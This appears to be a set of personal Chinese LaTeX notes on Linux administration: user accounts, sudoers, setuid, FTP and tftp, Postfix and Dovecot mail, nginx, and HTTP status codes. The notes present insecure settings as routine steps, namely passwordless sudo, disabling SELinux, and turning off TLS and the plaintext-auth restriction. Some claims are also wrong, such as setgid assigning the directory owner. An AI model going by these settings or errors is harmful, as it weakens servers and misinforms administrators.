useradd, adduser, userdel, deluser, usermod, delgroup

使用ueradd时,如果后面不添加任何参数选项,例如:\verb+#sudo useradd test+创建出来的用户将是默认“三无”用户:一无Home Directory,二无密码,三无系统Shell。
使用adduser时,创建用户的过程更像是一种人机对话,系统会提示你输入各种信息,然后会根据这些信息帮你创建新用户。
\begin{verbatim}
useradd -m -s /bin/bash user 
-m表示创建家目录,默认不创建。
注意-p选项以密文方式设置密码,似乎没什么用。
userdel -r user
删除用户及其家目录
\end{verbatim}


\subsection{设置用户的Bash工作环境}

通常在\verb|.bash_profile|中调用\verb|.bashrc|:
\begin{verbatim}
if [ -f ~/.bashrc ]; then . ~/.bashrc; fi
\end{verbatim}


\subsection{设置用户为sudoer}
执行visudo命令,在打开的文件中添加一行
\begin{verbatim}
userA ALL=(ALL)  ALL
userB ALL=(ALL)  NOPASSWD: ALL
\end{verbatim}
visudo相当于修改/etc/sudoers文件。userB执行sudo的时候不需要输入密码。

可以在bashrc或profile中添加如下内容,修改PATH
\begin{verbatim}
PATH=/usr/sbin:/usr/local/sbin:/sbin:$PATH
export PATH
\end{verbatim}



\subsection{用户所在组}

\subsubsection{查看用户所在组}
方法一:id命令和groups命令
方法二:/etc/group,格式:
\begin{verbatim}
group_name:password('x'):GID:user_list(separated by commas)
\end{verbatim}

\subsubsection{将用户加入组}
在Debian系上,采用命令
\begin{verbatim}
adduser username groupname 
\end{verbatim}

一般地,有
\begin{verbatim}
usermod -a -G <groupname> username
\end{verbatim}



\subsection{用户的shell}
/etc/passwd包含了家目录,shell等用户信息
查看系统安装的shell
\begin{verbatim}
cat /etc/shells
\end{verbatim}

查看当前shell
\begin{verbatim}
echo $SHELL
\end{verbatim}

更改某用户的shell
\begin{verbatim}
usermod -s /bin/zsh someuser
\end{verbatim}


\subsection{修改用户名和主机名}
用户名在/etc/shadow中修改,Ubuntu主机名需要在/etc目录下hostname和hosts两个文件下修改,Centos6.4主机名通过/etc/sysconfig/network文件修改。



\subsection{特殊文件权限}
setuid,setgid和粘贴位为特殊文件权限。

当一个可执行文件具有setuid这个权限时,文件的运行者将具有文件的所有者所拥有的权限。
通常passwd程序具有setuid权限。
\begin{verbatim}
-r-sr-sr-x   3 root     sys       104580 Sep 16 12:02 /usr/bin/passwd
\end{verbatim}

如果root用户所拥有的程序具有特殊文件权限:w
,则能够运行这个程序的用户将拥有root用户的uid,这将构成安全隐患。
另外,普通用户可以让自己拥有的程序具有特殊文件权限,其他用户运行了这个程序,将拥有该用户的权限。

若一个目录被设置setgid权限,在该目录下创建的文件以该目录的所有者为所有者,而非以创建者为所有者。
\begin{verbatim}  
-r-x--s--x   1 root     mail       63628 Sep 16 12:01 /usr/bin/mail
\end{verbatim}

  当粘贴位被设置于一个目录时,目录下的文件将被作防删除包含:只有文件的owner,目录的owner或root才可删除文件。
  /tmp目录常被设置粘贴位。
  
\begin{verbatim}  
drwxrwxrwt 7  root  sys   400 Sep  3 13:37 tmp
\end{verbatim}
  
  
 \subsection{ACL} 
 \begin{verbatim}
  setfacl -m d:u:myuser1:rx /srv/projecta
 \end{verbatim}
  
  
 \subsection{executing command as specified user} 

 \begin{verbatim}
 su USER  -c "CMD"
 \end{verbatim}
  
  
  

%!Mode:: "TeX:UTF-8"
\section{Ftp配置}


\subsection{Ftp命令}

登录某ftp服务器,ftp命令的参数可以是主机,也可不带参数,而在ftp命令界面下采用open命令:
\begin{lstlisting}
	ftp 1.1.1.1
\end{lstlisting}

close和disronnect命令关闭与远程机的连接,但是使用户留在本地计算机的ftp程序中。

bye命令都关闭用户与远程机的连接,然后退出用户机上的ftp程序。

cd, ls, pwd等命令是针对远程主机的。

'!ls'或'!dir'命令相当于本机下的ls命令。lcd则在本机切换目录。'!pwd'是本地端的pwd。

other useful commands:
\begin{lstlisting}
	open 1.1.1.1
	send FILENAME
	get FILENAME
	dir # list remote folder
\end{lstlisting}

The \verb|passive| command can turn on/off passive mode.



\subsection{vsftpd配置}
配置文件位于/etc/vsftpd目录下,ftpusers文件存放的是黑名单,user\_list可以是白名单或黑名单。
可在vsftpd.conf中设置userlist\_deny=NO,表示此为白名单,应将有登录权限的用户名追加于此文件。

通过设置SELinux,运行ftp访问用户目录:
\begin{lstlisting}
setsebool -P ftp_home_dir=1
\end{lstlisting}

Allow local login for test purposes:
\begin{lstlisting}
LOCAL_ENABLE = YES
\end{lstlisting}

Restrict PASV port to a small range:
\begin{lstlisting}
pasv_enable=YES
pasv_max_port=11021
pasv_min_port=11020
\end{lstlisting}



\subsection{tFtp配置}
Ubuntu下,安装tftp-hpa。在/etc/default/tftp-hpa目录下配置。
RHEL/CentOS环境下,安装tftp-server。守护进程名称为in.tftpd。

tftp的配置文件在/etc/xinetd.d/tftp,可修改disable=no,默认路径等参数。然后执行:
\begin{lstlisting}
    service xinetd restart
\end{lstlisting}

可用netstat命令查看69号端口是否开启。测试发现xinetd开启若干分钟后,in.tftpd守护进程才启动。此时可在另一台主机上测试:

\begin{lstlisting}
    tftp (serverip)
    tftp>get (some_file_name)
\end{lstlisting}

如果结果是
\begin{lstlisting}
Error code 0: Permission denied
\end{lstlisting}
可能是selinux问题。运行
\begin{lstlisting}
ls -alZ
\end{lstlisting}
结果应包含:
\begin{lstlisting}
 user_u:object_r:tftpdir_t
\end{lstlisting}

解决办法是:
\begin{lstlisting}
restorecon -Rv /tftpboot 
\end{lstlisting}





%!Mode:: "TeX:UTF-8"
\section{邮件配置:MTA,MRA,MUA}

邮件的账户,实质上就是邮件服务器主机上的用户账户。

\subsection{Postfix}
默认安装后,可能需修改/etc/postfix目录下的配置文件。
另外,要开放防火墙。


\begin{verbatim}
inet_interfaces = all
mynetworks_style = subnet
mynetworks = 168.100.189.0/28, 127.0.0.0/8, 172.0.0.0/8
\end{verbatim}

邮箱格式有mbox(默认)和Maildir两种风格。采用Maildir方式,设置用户的邮箱路径设置为:
\begin{verbatim}
home_mailbox = Maildir/
\end{verbatim}

修改配置文件后需要重新加载:
\begin{verbatim}
postfix reload
\end{verbatim}

但如果修改了inet\_interfaces参数则需要重启服务器:
\begin{verbatim}
service postfix restart
\end{verbatim}

也可如此重启postfix:
\begin{verbatim}
sudo postfix stop
sudo postfix start
\end{verbatim}

查看启动状态
\begin{verbatim}
postfix status
\end{verbatim}


查看参数配置
\begin{verbatim}
postconf 
\end{verbatim}


Postfix默认接受相同网络(通过mynetworks参数设置)的邮件客户IP,其他网络的客户端需要经过
\href{http://www.postfix.org/SASL_README.html}{SASL认证}。
Postfix支持Cyrus SASL以及Dovecot提供的SASL。
Cyrus SASL本身又包含多种认证方式,学习起来较为复杂。

如果遭遇到权限错误,需检查selinux设置。 



Postfix最好能够开启\href{http://www.postfix.org/TLS_README.html}{TLS支持}。



参考:

\href{https://help.ubuntu.com/community/PostfixBasicSetupHowto}{Ubuntu官方文档:PostfixBasicSetupHowto}

\href{Postfix Howtos and FAQs}{Postfix Howtos and FAQs}

\href{http://www.postfix.org/documentation.html}{Postfix Documentation}



\subsection{Dovecot}

Dovecot的配置文件位于/etc/dovecot。

在dovecot.conf中设置MRA所支持的协议(pop3, imap等):

\begin{verbatim}
# Protocols we want to be serving.
#protocols = imap pop3 lmtp
protocols = pop3 imap
\end{verbatim}

邮箱路径要同MTA的设置一致。可采用mbox风格:
\begin{verbatim}
mail_location = mbox:~/mail:INBOX=/var/mail/%u
mail_access_groups = mail
\end{verbatim}
或采用Maildir风格:
\begin{verbatim}
mail_location = maildir:~/Maildir
\end{verbatim}

如果采用mbox风格,且初次运行时并不存在~/.imap/INBOX路径,dovecot将创建它,并将其group设置为mail。
然后dovecot本身是以具体邮箱用户的身份运行,并无权限将文件的group设置为mail,因为该用户不属于mail组。
因此需要设置mail\_access\_groups。但如此会导致一些安全隐患。

常用的设置项还有
\begin{verbatim}
# Disable LOGIN command and all other plaintext authentications unless
# SSL/TLS is used (LOGINDISABLED capability). Note that if the remote IP
# matches the local IP (ie. you're connecting from the same computer), the
# connection is considered secure and plaintext authentication is allowed.
disable_plaintext_auth = no
# SSL/TLS support: yes, no, required. <doc/wiki/SSL.txt>
ssl = no
\end{verbatim}


查看Dovecot的日志文件存储路径:
\begin{verbatim}
% doveadm log find
\end{verbatim}
通常其日志文件为/var/log/maillog。

参考
\href{http://wiki2.dovecot.org/}{Dovecot官方Wiki}。




\subsection{Cyrus SASL认证配置}


Cyrus SASL的saslauthd守护进程支持多种认证渠道,包括/etc/shadow, PAM,
借助IMAP服务器等。除saslauthd外,Cyrus SASL也支持通过sasldb, sql, ldapdb三种插件来进行认证。

Cyrus SASL提供的认证机制包括:plain,login,DIGEST-MD5,CRAM-MD5等。

如果要采用plain和login机制,需要安装相应的包:
\begin{verbatim}
yum install cyrus-sasl-plain
\end{verbatim}



\begin{verbatim}
/etc/init.d/saslauthd start
\end{verbatim}

需要合理设置Maildir的权限,否则SELINUX可能会导致认证失败
\begin{verbatim}
setenforce 0
sestatus
\end{verbatim}



testsaslauthd可用于测试账号认证功能:
\begin{verbatim}
testsaslauthd -u username -p password
\end{verbatim}

配置Postfix的认证:
\begin{verbatim}

/etc/postfix/main.cf:
	smtpd_sasl_type = cyrus 
	smtpd_sasl_path = smtpd
    smtpd_sasl_auth_enable = yes
    broken_sasl_auth_clients = yes

\end{verbatim}


详情可参考:

\href{http://www.postfix.org/SASL_README.html}{Postfix官方文档: SASL Howto}。

\href{http://postfix.state-of-mind.de/patrick.koetter/smtpauth/index.html}{Patrick Ben Koetter: Postfix SMTP AUTH (and TLS) HOWTO}。



\subsection{Dovecot SASL认证配置}
前提条件是配置好Dovecot本身的认证机制,然后设置Postfix令其借助于该机制进行认证。


\begin{verbatim}

/etc/dotecov/conf.d/10-master.conf:
    service auth {
       ...
       unix_listener /var/spool/postfix/private/auth {
         mode = 0660
         # Assuming the default Postfix user and group
         user = postfix
         group = postfix        
       }
       ...
     }
 
/etc/dotecov/conf.d/10-auth.conf:
    auth_mechanisms = plain login

/etc/postfix/main.cf:
    smtpd_sasl_type = dovecot
    smtpd_sasl_path = private/auth
    smtpd_sasl_auth_enable = yes
    broken_sasl_auth_clients = yes
    
\end{verbatim}



\subsection{mailx发送邮件}

mail命令由软件包mailx(Debian系称作mailutils)提供。mail可连接本地的MTA发送邮件。

以下命令可用于发送邮件,命令行中给出收件人和主题,以shell为编辑器编写邮件正文,以EOT结束编辑。 
-s参数可给出,也可不给,留在编辑时写出主题。
\begin{verbatim}
mail -s MySubject root@zld_02.chanct.com
\end{verbatim}

也可以在命令行中直接给出邮件的正文内容:
\begin{verbatim}
echo “mail content”|mail -s test admin@aispider.com 
\end{verbatim}

还可以用文件作为正文内容:
\begin{verbatim}
mail -s test  admin@aispider.com < file
\end{verbatim}


\subsection{mailx查看邮件}
不带任何参数执行mail命令,将查看当前用户的邮件。
用户的邮件位于\verb|/var/spool/mail/用户名|目录下,这一路径由环境变量MAIL设置。
\begin{verbatim}
export MAIL=
\end{verbatim}

在邮件查看界面下可使用一些子命令。

\begin{description}
  \item [?] 给出命令提示 
  \item [file|folder] 查看邮箱概要
  \item [x] 退出mail界面,不执行变更 
  \item [q] 退出mail界面,执行变更 
  \item [t|type|p|print msglist] 显示邮件正文 
  \item [f|from msglist] 显示邮件概要
  \item [s|save msglist fname] 追加邮件至fname文件, 标记为已保存
  \item [copy msglist fname] 追加邮件至fname文件, 不标记为已保存
  \item [n|回车] 迭代至下一封邮件并查看正文 
  \item [v|visual] 用编辑器打开当前邮件 
  \item [d msglist] 删除邮件 

\end{description}

子命令中的msglist为邮件的id列表,如“1 3 7”表示第一、第三、第七封邮件,“2-4”表示第二、第三、第四封邮件。
如果msglist不给出,则认为是上一次被显示的邮件。




























%!Mode:: "TeX:UTF-8"
\section{Nginx配置}

Linux系统下搭建Web服务器的一个简易方法是使用Python的SimpleHTTPServer模块:

\begin{verbatim}
python -m SimpleHTTPServer 8080
\end{verbatim}

CentOS的epel仓库中包含了一个nginx软件包,可通过yum从epel中安装nginx:
\begin{verbatim}
yum -y install epel-release
yum -y install nginx
service nginx start
\end{verbatim}

在Ubuntu 14.04下使用apt-get安装后,可执行文件在/usr/bin目录,
配置文件在/etc/nginx目录,网页文件在/usr/share/nginx/html目录。

核心的配置文件为nginx.conf,其可用include指令包含任意其他配置文件,默认包含conf.d子目录下的文件。

使用文件拷贝来安装配置Nginx(前提是configure时指定prefix局限在一个用户目录中),需要修改某些配置以便同别人区分开:
更改server块下listen配置,修改端口号;更改pid配置,修改pid文件路径;修改\verb$lua_packet_path$这种参数。



配置代理服务器
\begin{verbatim}
server {
        listen 8000;
        root html;
        index index.html index.htm;

        location / { 
                proxy_pass http://127.0.0.1:8082;    
        }
}

\end{verbatim}

%!Mode:: "TeX:UTF-8"
\chapter{Machine Learning}





\section{Common Questions}

\subsection{feature importance}

\href{https://machinelearningmastery.com/feature-importance-and-feature-selection-with-xgboost-in-python/}
 { Feature Importance and Feature Selection With XGBoost in Python}



%!Mode:: "TeX:UTF-8"
 \chapter{Unix编程接口}

\input{Network/packet-format.tex}
%!Mode:: "TeX:UTF-8"
\section{HTTP Range}
Range头域可以请求实体的一个或者多个子范围。例如,  
  表示头500个字节:bytes=0-499  
  表示第二个500字节:bytes=500-999  
  表示最后500个字节:bytes=-500  
  表示500字节以后的范围:bytes=500-  
  第一个和最后一个字节:bytes=0-0,-1  
  同时指定几个范围:bytes=500-600,601-999 

\section{HTTP状态码}

\subsection{1xx消息}
这一类型的状态码,代表请求已被接受,需要继续处理。这类响应是临时响应,只包含状态行和某些可选的响应头信息,并以空行结束。由于HTTP/1.0协议中没有定义任何1xx状态码,所以除非在某些试验条件下,服务器禁止向此类客户端发送1xx响应。 这些状态码代表的响应都是信息性的,标示客户应该采取的其他行动。

100 Continue
客户端应当继续发送请求。这个临时响应是用来通知客户端它的部分请求已经被服务器接收,且仍未被拒绝。客户端应当继续发送请求的剩余部分,或者如果请求已经完成,忽略这个响应。服务器必须在请求完成后向客户端发送一个最终响应。

101 Switching Protocols
服务器已经理解了客户端的请求,并将通过Upgrade消息头通知客户端采用不同的协议来完成这个请求。在发送完这个响应最后的空行后,服务器将会切换到在Upgrade消息头中定义的那些协议。
只有在切换新的协议更有好处的时候才应该采取类似措施。例如,切换到新的HTTP版本比旧版本更有优势,或者切换到一个实时且同步的协议以传送利用此类特性的资源。

102 Processing
由WebDAV(RFC 2518)扩展的状态码,代表处理将被继续执行。

\subsection{2xx成功}

这一类型的状态码,代表请求已成功被服务器接收、理解、并接受。

200 OK
请求已成功,请求所希望的响应头或数据体将随此响应返回。

201 Created
请求已经被实现,而且有一个新的资源已经依据请求的需要而创建,且其URI已经随Location头信息返回。假如需要的资源无法及时创建的话,应当返回'202 Accepted'。

202 Accepted
服务器已接受请求,但尚未处理。正如它可能被拒绝一样,最终该请求可能会也可能不会被执行。在异步操作的场合下,没有比发送这个状态码更方便的做法了。
返回202状态码的响应的目的是允许服务器接受其他过程的请求(例如某个每天只执行一次的基于批处理的操作),而不必让客户端一直保持与服务器的连接直到批处理操作全部完成。在接受请求处理并返回202状态码的响应应当在返回的实体中包含一些指示处理当前状态的信息,以及指向处理状态监视器或状态预测的指针,以便用户能够估计操作是否已经完成。

203 Non-Authoritative Information
服务器已成功处理了请求,但返回的实体头部元信息不是在原始服务器上有效的确定集合,而是来自本地或者第三方的拷贝。当前的信息可能是原始版本的子集或者超集。例如,包含资源的元数据可能导致原始服务器知道元信息的超集。使用此状态码不是必须的,而且只有在响应不使用此状态码便会返回200 OK的情况下才是合适的。

204 No Content
服务器成功处理了请求,但不需要返回任何实体内容,并且希望返回更新了的元信息。响应可能通过实体头部的形式,返回新的或更新后的元信息。如果存在这些头部信息,则应当与所请求的变量相呼应。
如果客户端是浏览器的话,那么用户浏览器应保留发送了该请求的页面,而不产生任何文档视图上的变化,即使按照规范新的或更新后的元信息应当被应用到用户浏览器活动视图中的文档。
由于204响应被禁止包含任何消息体,因此它始终以消息头后的第一个空行结尾。

205 Reset Content
服务器成功处理了请求,且没有返回任何内容。但是与204响应不同,返回此状态码的响应要求请求者重置文档视图。该响应主要是被用于接受用户输入后,立即重置表单,以便用户能够轻松地开始另一次输入。
与204响应一样,该响应也被禁止包含任何消息体,且以消息头后的第一个空行结束。

206 Partial Content
服务器已经成功处理了部分GET请求。类似于FlashGet或者迅雷这类的HTTP 下载工具都是使用此类响应实现断点续传或者将一个大文档分解为多个下载段同时下载。
该请求必须包含Range头信息来指示客户端希望得到的内容范围,并且可能包含If-Range来作为请求条件。
响应必须包含如下的头部域:

\begin{itemize}
\item Content-Range用以指示本次响应中返回的内容的范围;如果是Content-Type为multipart/byteranges的多段下载,则每一multipart段中都应包含Content-Range域用以指示本段的内容范围。假如响应中包含Content-Length,那么它的数值必须匹配它返回的内容范围的真实字节数。
\item Date
\item ETag和/或Content-Location,假如同样的请求本应该返回200响应。
\item Expires, Cache-Control,和/或Vary,假如其值可能与之前相同变量的其他响应对应的值不同的话。
\end{itemize}


假如本响应请求使用了If-Range强缓存验证,那么本次响应不应该包含其他实体头;假如本响应的请求使用了If-Range弱缓存验证,那么本次响应禁止包含其他实体头;这避免了缓存的实体内容和更新了的实体头信息之间的不一致。否则,本响应就应当包含所有本应该返回200响应中应当返回的所有实体头部域。
假如ETag或Last-Modified头部不能精确匹配的话,则客户端缓存应禁止将206响应返回的内容与之前任何缓存过的内容组合在一起。
任何不支持Range以及Content-Range头的缓存都禁止缓存206响应返回的内容。

207 Multi-Status
由WebDAV(RFC 2518)扩展的状态码,代表之后的消息体将是一个XML消息,并且可能依照之前子请求数量的不同,包含一系列独立的响应代码。

\subsection{3xx重定向}
这类状态码代表需要客户端采取进一步的操作才能完成请求。通常,这些状态码用来重定向,后续的请求地址(重定向目标)在本次响应的Location域中指明。

当且仅当后续的请求所使用的方法是GET或者HEAD时,用户浏览器才可以在没有用户介入的情况下自动提交所需要的后续请求。客户端应当自动监测无限循环重定向(例如:A→B→C→……→A或A→A),因为这会导致服务器和客户端大量不必要的资源消耗。按照HTTP/1.0版规范的建议,浏览器不应自动访问超过5次的重定向。

300 Multiple Choices
被请求的资源有一系列可供选择的回馈信息,每个都有自己特定的地址和浏览器驱动的商议信息。用户或浏览器能够自行选择一个首选的地址进行重定向。
除非这是一个HEAD请求,否则该响应应当包括一个资源特性及地址的列表的实体,以便用户或浏览器从中选择最合适的重定向地址。这个实体的格式由Content-Type定义的格式所决定。浏览器可能根据响应的格式以及浏览器自身能力,自动作出最合适的选择。当然,RFC 2616规范并没有规定这样的自动选择该如何进行。
如果服务器本身已经有了首选的回馈选择,那么在Location中应当指明这个回馈的URI;浏览器可能会将这个Location值作为自动重定向的地址。此外,除非额外指定,否则这个响应也是可缓存的。

301 Moved Permanently
被请求的资源已永久移动到新位置,并且将来任何对此资源的引用都应该使用本响应返回的若干个URI之一。如果可能,拥有链接编辑功能的客户端应当自动把请求的地址修改为从服务器反馈回来的地址。除非额外指定,否则这个响应也是可缓存的。
新的永久性的URI应当在响应的Location域中返回。除非这是一个HEAD请求,否则响应的实体中应当包含指向新的URI的超链接及简短说明。
如果这不是一个GET或者HEAD请求,因此浏览器禁止自动进行重定向,除非得到用户的确认,因为请求的条件可能因此发生变化。
注意:对于某些使用HTTP/1.0协议的浏览器,当它们发送的POST请求得到了一个301响应的话,接下来的重定向请求将会变成GET方式。

302 Found
请求的资源现在临时从不同的URI响应请求。由于这样的重定向是临时的,客户端应当继续向原有地址发送以后的请求。只有在Cache-Control或Expires中进行了指定的情况下,这个响应才是可缓存的。
新的临时性的URI应当在响应的Location域中返回。除非这是一个HEAD请求,否则响应的实体中应当包含指向新的URI的超链接及简短说明。
如果这不是一个GET或者HEAD请求,那么浏览器禁止自动进行重定向,除非得到用户的确认,因为请求的条件可能因此发生变化。
注意:虽然RFC 1945和RFC 2068规范不允许客户端在重定向时改变请求的方法,但是很多现存的浏览器将302响应视作为303响应,并且使用GET方式访问在Location中规定的URI,而无视原先请求的方法。状态码303和307被添加了进来,用以明确服务器期待客户端进行何种反应。

303 See Other
对应当前请求的响应可以在另一个URI上被找到,而且客户端应当采用GET的方式访问那个资源。这个方法的存在主要是为了允许由脚本激活的POST请求输出重定向到一个新的资源。这个新的URI不是原始资源的替代引用。同时,303响应禁止被缓存。当然,第二个请求(重定向)可能被缓存。
新的URI应当在响应的Location域中返回。除非这是一个HEAD请求,否则响应的实体中应当包含指向新的URI的超链接及简短说明。
注意:许多HTTP/1.1版以前的浏览器不能正确理解303状态。如果需要考虑与这些浏览器之间的互动,302状态码应该可以胜任,因为大多数的浏览器处理302响应时的方式恰恰就是上述规范要求客户端处理303响应时应当做的。

304 Not Modified
如果客户端发送了一个带条件的GET请求且该请求已被允许,而文档的内容(自上次访问以来或者根据请求的条件)并没有改变,则服务器应当返回这个状态码。304响应禁止包含消息体,因此始终以消息头后的第一个空行结尾。
该响应必须包含以下的头信息:
Date,除非这个服务器没有时钟。假如没有时钟的服务器也遵守这些规则,那么代理服务器以及客户端可以自行将Date字段添加到接收到的响应头中去(正如RFC 2068中规定的一样),缓存机制将会正常工作。
ETag和/或Content-Location,假如同样的请求本应返回200响应。
Expires, Cache-Control,和/或Vary,假如其值可能与之前相同变量的其他响应对应的值不同的话。
假如本响应请求使用了强缓存验证,那么本次响应不应该包含其他实体头;否则(例如,某个带条件的GET请求使用了弱缓存验证),本次响应禁止包含其他实体头;这避免了缓存了的实体内容和更新了的实体头信息之间的不一致。
假如某个304响应指明了当前某个实体没有缓存,那么缓存系统必须忽视这个响应,并且重复发送不包含限制条件的请求。
假如接收到一个要求更新某个缓存条目的304响应,那么缓存系统必须更新整个条目以反映所有在响应中被更新的字段的值。

305 Use Proxy
被请求的资源必须通过指定的代理才能被访问。Location域中将给出指定的代理所在的URI信息,接收者需要重复发送一个单独的请求,通过这个代理才能访问相应资源。只有原始服务器才能创建305响应。
注意:RFC 2068中没有明确305响应是为了重定向一个单独的请求,而且只能被原始服务器创建。忽视这些限制可能导致严重的安全后果。

306 Switch Proxy
在最新版的规范中,306状态码已经不再被使用。

307 Temporary Redirect
请求的资源现在临时从不同的URI响应请求。由于这样的重定向是临时的,客户端应当继续向原有地址发送以后的请求。只有在Cache-Control或Expires中进行了指定的情况下,这个响应才是可缓存的。
新的临时性的URI应当在响应的Location域中返回。除非这是一个HEAD请求,否则响应的实体中应当包含指向新的URI的超链接及简短说明。因为部分浏览器不能识别307响应,因此需要添加上述必要信息以便用户能够理解并向新的URI发出访问请求。
如果这不是一个GET或者HEAD请求,那么浏览器禁止自动进行重定向,除非得到用户的确认,因为请求的条件可能因此发生变化。

\subsection{4xx客户端错误}

这类的状态码代表了客户端看起来可能发生了错误,妨碍了服务器的处理。除非响应的是一个HEAD请求,否则服务器就应该返回一个解释当前错误状况的实体,以及这是临时的还是永久性的状况。这些状态码适用于任何请求方法。浏览器应当向用户显示任何包含在此类错误响应中的实体内容。

如果错误发生时客户端正在传送数据,那么使用TCP的服务器实现应当仔细确保在关闭客户端与服务器之间的连接之前,客户端已经收到了包含错误信息的数据包。如果客户端在收到错误信息后继续向服务器发送数据,服务器的TCP栈将向客户端发送一个重置数据包,以清除该客户端所有还未识别的输入缓冲,以免这些数据被服务器上的应用程序读取并干扰后者。

400 Bad Request
由于包含语法错误,当前请求无法被服务器理解。除非进行修改,否则客户端不应该重复提交这个请求。

401 Unauthorized
当前请求需要用户验证。该响应必须包含一个适用于被请求资源的WWW-Authenticate信息头用以询问用户信息。客户端可以重复提交一个包含恰当的Authorization头信息的请求。如果当前请求已经包含了Authorization证书,那么401响应代表着服务器验证已经拒绝了那些证书。如果401响应包含了与前一个响应相同的身份验证询问,且浏览器已经至少尝试了一次验证,那么浏览器应当向用户展示响应中包含的实体信息,因为这个实体信息中可能包含了相关诊断信息。参见RFC 2617。

402 Payment Required
该状态码是为了将来可能的需求而预留的。

403 Forbidden
服务器已经理解请求,但是拒绝执行它。与401响应不同的是,身份验证并不能提供任何帮助,而且这个请求也不应该被重复提交。如果这不是一个HEAD请求,而且服务器希望能够讲清楚为何请求不能被执行,那么就应该在实体内描述拒绝的原因。当然服务器也可以返回一个404响应,假如它不希望让客户端获得任何信息。

404 Not Found
请求失败,请求所希望得到的资源未被在服务器上发现。没有信息能够告诉用户这个状况到底是暂时的还是永久的。假如服务器知道情况的话,应当使用410状态码来告知旧资源因为某些内部的配置机制问题,已经永久的不可用,而且没有任何可以跳转的地址。404这个状态码被广泛应用于当服务器不想揭示到底为何请求被拒绝或者没有其他适合的响应可用的情况下。

405 Method Not Allowed
请求行中指定的请求方法不能被用于请求相应的资源。该响应必须返回一个Allow头信息用以表示出当前资源能够接受的请求方法的列表。
鉴于PUT,DELETE方法会对服务器上的资源进行写操作,因而绝大部分的网页服务器都不支持或者在默认配置下不允许上述请求方法,对于此类请求均会返回405错误。

406 Not Acceptable
请求的资源的内容特性无法满足请求头中的条件,因而无法生成响应实体。
除非这是一个HEAD请求,否则该响应就应当返回一个包含可以让用户或者浏览器从中选择最合适的实体特性以及地址列表的实体。实体的格式由Content-Type头中定义的媒体类型决定。浏览器可以根据格式及自身能力自行作出最佳选择。但是,规范中并没有定义任何作出此类自动选择的标准。

407 Proxy Authentication Required
与401响应类似,只不过客户端必须在代理服务器上进行身份验证。代理服务器必须返回一个Proxy-Authenticate用以进行身份询问。客户端可以返回一个Proxy-Authorization信息头用以验证。参见RFC 2617。

408 Request Timeout
请求超时。客户端没有在服务器预备等待的时间内完成一个请求的发送。客户端可以随时再次提交这一请求而无需进行任何更改。

409 Conflict
由于和被请求的资源的当前状态之间存在冲突,请求无法完成。这个代码只允许用在这样的情况下才能被使用:用户被认为能够解决冲突,并且会重新提交新的请求。该响应应当包含足够的信息以便用户发现冲突的源头。
冲突通常发生于对PUT请求的处理中。例如,在采用版本检查的环境下,某次PUT提交的对特定资源的修改请求所附带的版本信息与之前的某个(第三方)请求向冲突,那么此时服务器就应该返回一个409错误,告知用户请求无法完成。此时,响应实体中很可能会包含两个冲突版本之间的差异比较,以便用户重新提交归并以后的新版本。

410 Gone
被请求的资源在服务器上已经不再可用,而且没有任何已知的转发地址。这样的状况应当被认为是永久性的。如果可能,拥有链接编辑功能的客户端应当在获得用户许可后删除所有指向这个地址的引用。如果服务器不知道或者无法确定这个状况是否是永久的,那么就应该使用404状态码。除非额外说明,否则这个响应是可缓存的。
410响应的目的主要是帮助网站管理员维护网站,通知用户该资源已经不再可用,并且服务器拥有者希望所有指向这个资源的远端连接也被删除。这类事件在限时、增值服务中很普遍。同样,410响应也被用于通知客户端在当前服务器站点上,原本属于某个个人的资源已经不再可用。当然,是否需要把所有永久不可用的资源标记为'410 Gone',以及是否需要保持此标记多长时间,完全取决于服务器拥有者。

411 Length Required
服务器拒绝在没有定义Content-Length头的情况下接受请求。在添加了表明请求消息体长度的有效Content-Length头之后,客户端可以再次提交该请求。

412 Precondition Failed
服务器在验证在请求的头字段中给出先决条件时,没能满足其中的一个或多个。这个状态码允许客户端在获取资源时在请求的元信息(请求头字段数据)中设置先决条件,以此避免该请求方法被应用到其希望的内容以外的资源上。

413 Request Entity Too Large
服务器拒绝处理当前请求,因为该请求提交的实体数据大小超过了服务器愿意或者能够处理的范围。此种情况下,服务器可以关闭连接以免客户端继续发送此请求。
如果这个状况是临时的,服务器应当返回一个Retry-After的响应头,以告知客户端可以在多少时间以后重新尝试。

414 Request-URI Too Long
请求的URI长度超过了服务器能够解释的长度,因此服务器拒绝对该请求提供服务。这比较少见,通常的情况包括:
本应使用POST方法的表单提交变成了GET方法,导致查询字符串(Query String)过长。
重定向URI“黑洞”,例如每次重定向把旧的URI作为新的URI的一部分,导致在若干次重定向后URI超长。
客户端正在尝试利用某些服务器中存在的安全漏洞攻击服务器。这类服务器使用固定长度的缓冲读取或操作请求的URI,当GET后的参数超过某个数值后,可能会产生缓冲区溢出,导致任意代码被执行。没有此类漏洞的服务器,应当返回414状态码。

415 Unsupported Media Type
对于当前请求的方法和所请求的资源,请求中提交的实体并不是服务器中所支持的格式,因此请求被拒绝。

416 Requested Range Not Satisfiable
如果请求中包含了Range请求头,并且Range中指定的任何数据范围都与当前资源的可用范围不重合,同时请求中又没有定义If-Range请求头,那么服务器就应当返回416状态码。
假如Range使用的是字节范围,那么这种情况就是指请求指定的所有数据范围的首字节位置都超过了当前资源的长度。服务器也应当在返回416状态码的同时,包含一个Content-Range实体头,用以指明当前资源的长度。这个响应也被禁止使用multipart/byteranges作为其Content-Type。

417 Expectation Failed
在请求头Expect中指定的预期内容无法被服务器满足,或者这个服务器是一个代理服务器,它有明显的证据证明在当前路由的下一个节点上,Expect的内容无法被满足。

418 I'm a teapot
本操作码是在1998年作为IETF的传统愚人节笑话, 在RFC 2324 超文本咖啡壶控制协议中定义的,并不需要在真实的HTTP服务器中定义。

421 There are too many connections from your internet address
从当前客户端所在的IP地址到服务器的连接数超过了服务器许可的最大范围。通常,这里的IP地址指的是从服务器上看到的客户端地址(比如用户的网关或者代理服务器地址)。在这种情况下,连接数的计算可能涉及到不止一个终端用户。

422 Unprocessable Entity
请求格式正确,但是由于含有语义错误,无法响应。(RFC 4918 WebDAV)

423 Locked
当前资源被锁定。(RFC 4918 WebDAV)

424 Failed Dependency
由于之前的某个请求发生的错误,导致当前请求失败,例如PROPPATCH。(RFC 4918 WebDAV)

425 Unordered Collection
在WebDav Advanced Collections草案中定义,但是未出现在《WebDAV顺序集协议》(RFC 3658)中。

426 Upgrade Required
客户端应当切换到TLS/1.0。(RFC 2817)

449 Retry With
由微软扩展,代表请求应当在执行完适当的操作后进行重试。

\subsection{5xx服务器错误}
